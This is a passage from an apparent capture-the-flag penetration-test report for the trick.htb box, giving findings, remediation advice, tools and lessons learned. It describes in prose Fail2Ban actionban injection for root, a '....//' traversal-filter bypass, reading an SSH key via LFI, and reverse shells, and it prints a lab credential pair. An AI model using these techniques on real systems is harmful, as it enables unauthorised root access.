- Run PHP-FPM pools with minimal filesystem permissions — the web application user should not have read access to SSH keys, `/etc/passwd`, or other sensitive files outside the webroot.
- Separate web service accounts from interactive user accounts — a PHP-FPM pool should never run as a user with SSH access and sensitive private keys.

---

### Finding 4 — Fail2Ban Privilege Escalation via Writable Action Directory

| Attribute       | Detail                                                                                                                                                                                                                                                                                                                                                             |
| :-------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**    | 🟠 High                                                                                                                                                                                                                                                                                                                                                            |
| **MITRE**       | T1548.003 — Abuse Elevation Control Mechanism: Sudo and Sudo Caching                                                                                                                                                                                                                                                                                               |
| **Description** | The Fail2Ban `action.d` directory (`/etc/fail2ban/action.d/`) is writable by the `security` group, to which user `michael` belongs. Combined with the sudoers entry allowing `michael` to restart Fail2Ban as root without a password, this enables arbitrary command execution as root by injecting commands into the `actionban` directive and triggering a ban. |

**Recommendations:**
- Remove group write permissions on Fail2Ban configuration directories: `chmod 755 /etc/fail2ban/action.d/; chown root:root /etc/fail2ban/action.d/`.
- Restrict the sudoers entry to reload rather than restart, or remove it entirely if not operationally required.
- If non-root users must manage Fail2Ban, use a dedicated management interface with strict input validation rather than granting direct service control.
- Consider deploying SELinux or AppArmor policies to restrict Fail2Ban's execution context.

---

### Finding 5 — Cleartext Credentials in Web Application

| Attribute       | Detail                                                           |
|:----------------|:-----------------------------------------------------------------|
| **Severity**    | 🟡 Medium                                                       |
| **MITRE**       | T1552.001 — Unsecured Credentials: Credentials in Files          |
| **Description** | The payroll application stores user credentials (`Enemigosss:SuperGucciRainbowCake`) in plaintext within the database and exposes them in HTML input field `value` attributes in the user edit form, visible to any authenticated administrator or via response interception. |

**Recommendations:**
- Hash all stored passwords using a modern adaptive algorithm (bcrypt, Argon2id) with per-user salting.
- Never populate password fields with actual credential values in HTML responses — use empty fields with placeholder text for password changes.
- Enforce minimum password complexity requirements and regular rotation policies.
- Conduct periodic database audits to identify and remediate plaintext credential storage.

---

## 6. Tools Used

| Tool       | Purpose                                                                |
|:-----------|:-----------------------------------------------------------------------|
| **Nmap**   | Full TCP port scanning and service/version detection                   |
| **dig**    | DNS enumeration — reverse lookups, ANY queries, AXFR zone transfers    |
| **telnet** | Manual SMTP VRFY user enumeration                                      |
| **ffuf**   | Virtual host subdomain fuzzing via Host header manipulation            |
| **SQLMap** | Automated SQL injection exploitation and arbitrary file read           |
| **Burp Suite** | HTTP request interception, response inspection, cleartext credential discovery |
| **cURL**   | HTTP fingerprinting and manual request crafting                        |
| **Hydra**  | SSH brute-force to trigger Fail2Ban ban action                         |
| **Netcat** | Catching reverse shells (root)                                         |
| **SSH**    | Authenticated remote access using extracted private key                 |
| **vim**    | Editing Fail2Ban action configuration files on target                   |

---

## 7. Lessons Learned

1. **DNS zone transfers remain a goldmine** — Even on modern systems, misconfigured BIND servers may permit unrestricted AXFR transfers. Always test for zone transfers early in reconnaissance, as they can reveal hidden virtual hosts, internal subdomains, and infrastructure details that are invisible to standard brute-forcing techniques.

2. **Single-pass input sanitization is fundamentally broken** — The marketing application's `../` removal filter was trivially defeated by `....//` nesting. This pattern is a recurring vulnerability in PHP applications. Secure file inclusion requires path canonicalization (`realpath()`), allowlist validation, and chroot-style restrictions — never regex-based string removal.

3. **PHP-FPM pool user context matters** — The marketing vhost ran under `michael`'s PHP-FPM pool (`php7.3-fpm-michael.sock`), which meant the LFI could read `michael`'s private SSH key. Understanding which system user a web application runs as directly determines the blast radius of file inclusion vulnerabilities.

4. **Sudo + writable configs = root** — The combination of `sudo /etc/init.d/fail2ban restart` with group-writable action configuration directories is a textbook privilege escalation vector. Any time a user can restart a root-level service *and* modify its configuration, the result is equivalent to arbitrary root command execution. Always audit the full chain: not just what sudo allows, but what the allowed command *loads and executes*.

5. **Dead ends teach methodology** — The `Enemigosss:SuperGucciRainbowCake` credentials found in the payroll app were a tempting lead that ultimately went nowhere (failed for SSH, `su`, and system-level access). Similarly, `root.trick.htb` from the SOA record turned out to be the same default page. The response manipulation attempt on the login form also failed due to server-side session validation. Documenting and testing every lead is essential, but equally important is recognizing when to move on and pivot to alternative vectors.

---

## 8. References

- [HackTricks — DNS Enumeration & Zone Transfer](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-dns.html)
- [OWASP — SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Juggernaut-Sec — Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)
- [HackTricks — Fail2Ban Privilege Escalation](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/fail2ban.html)
- [MITRE ATT&CK — T1190 (Exploit Public-Facing Application)](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK — T1083 (File and Directory Discovery)](https://attack.mitre.org/techniques/T1083/)
- [MITRE ATT&CK — T1548.003 (Sudo and Sudo Caching)](https://attack.mitre.org/techniques/T1548/003/)
- [MITRE ATT&CK — T1590.002 (Gather Victim Network Information: DNS)](https://attack.mitre.org/techniques/T1590/002/)
- [MITRE ATT&CK — T1552.001 (Unsecured Credentials: Credentials in Files)](https://attack.mitre.org/techniques/T1552/001/)
- [ISC BIND 9 — `allow-transfer` Configuration](https://kb.isc.org/docs/aa-00175)
